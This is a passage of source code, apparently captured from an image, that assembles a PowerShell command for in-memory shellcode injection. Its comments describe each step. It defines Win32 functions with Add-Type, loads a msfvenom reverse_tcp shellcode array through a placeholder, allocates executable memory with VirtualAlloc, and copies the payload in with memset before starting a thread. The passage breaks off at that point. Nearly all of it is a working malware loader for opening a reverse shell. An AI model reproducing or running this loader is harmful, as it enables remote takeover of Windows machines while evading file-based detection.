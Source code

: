         "$w = Add-Type -memberDefinition $c -Name \"Win32\" -namespace Win32Functions -passthru;"
    
        # Create Byte array and assign our prepped reverse_tcp shellcode.
        "[Byte[]];[Byte[]]"
        "$z = %s;"
        "$g = 0x1000;"
        "if ($z.Length -gt 0x1000){$g = $z.Length};"
    
        # Starting at the first virtual address in the space of the calling process
        #    (which will be a PowerShell instance),
        # allocate 0x1000 bytes, set to zero, but only when a caller first accesses
        #    when we memset below,
        # https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887(v=vs.85).aspx
        # & set execute, read-only, or read/write access (0x40) to the committed region of pages.
        # https://msdn.microsoft.com/en-us/library/windows/desktop/aa366786(v=vs.85).aspx
        # Essentially just allocate some (all permissions) memory at the start of PowerShell
        #    that is executing this & assign the base address of the allocated memory to $x.
    
        "$x=$w::VirtualAlloc(0,0x1000,$g,0x40);"
    
        # Set the memory that $x points to
        #    (first 0x1000 bytes of the calling PowerShell instance) to the memory
        #    that $z points to (the (reverse shell) shellcode that msvenom gives us).
        "for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)};"
        # Create a thread to execute within the virtual address space of the calling PowerShell
        #    (which happens on the last line).
        # The third parameter represents the starting address of the thread, the shellcode to be executed by the thread.